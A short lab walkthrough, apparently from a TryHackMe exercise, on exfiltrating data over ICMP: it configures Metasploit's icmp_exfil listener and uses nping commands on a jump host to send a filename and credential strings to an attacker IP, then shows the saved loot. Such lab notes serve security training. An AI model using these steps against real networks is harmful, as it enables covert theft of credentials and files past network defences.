 # Data exfiltration over ICMP

Using Metasploit `auxiliary/server/icmp_exfil`:

    # msfconsole
    msf6 > use auxiliary/server/icmp_exfil
    msf6 auxiliary(server/icmp_exfil) > options
    
    Module options (auxiliary/server/icmp_exfil):
    
       Name             Current Setting  Required  Description
       ----             ---------------  --------  -----------
       BPF_FILTER       icmp             yes       BFP format filter to listen for
       END_TRIGGER      ^EOF             yes       Trigger for end of file
       FNAME_IN_PACKET  true             yes       Filename presented in first pac
                                                   ket straight after START_TRIGGE
                                                   R
       INTERFACE                         no        The name of the interface
       RESP_CONT        OK               yes       Data ro resond when continuatio
                                                   n of data expected
       RESP_END         COMPLETE         yes       Data to response when EOF recei
                                                   ved and data saved
       RESP_START       SEND             yes       Data to respond when initial tr
                                                   igger matches
       START_TRIGGER    ^BOF             yes       Trigger for beginning of file

Set options: 

    msf6 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src <IP attack machine>
    BPF_FILTER => icmp and not src <IP attack machine>
    msf6 auxiliary(server/icmp_exfil) > set INTERFACE tun0

In another terminal, go into the icmp box and start the transmission:

    thm@jump-box$ ssh thm@icmp.thm.com
    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "BOFfile.txt"

Send the data:

    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "admin:password"
    
    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "admin2:password2"

End the transmission:

    thm@icmp-host:~# sudo nping --icmp -c 1 <IP attack machine> --data-string "EOF"

Results:

    msf6 auxiliary(server/icmp_exfil) > run
        
    [*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
    [*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
    [+] Beginning capture of "file.txt" data
    [*] 30 bytes of data received in total
    [+] End of File received. Saving "file.txt" to loot
    [+] Incoming file "file.txt" saved to loot
    [+] Loot filename: /path/to/loot/filename.txt
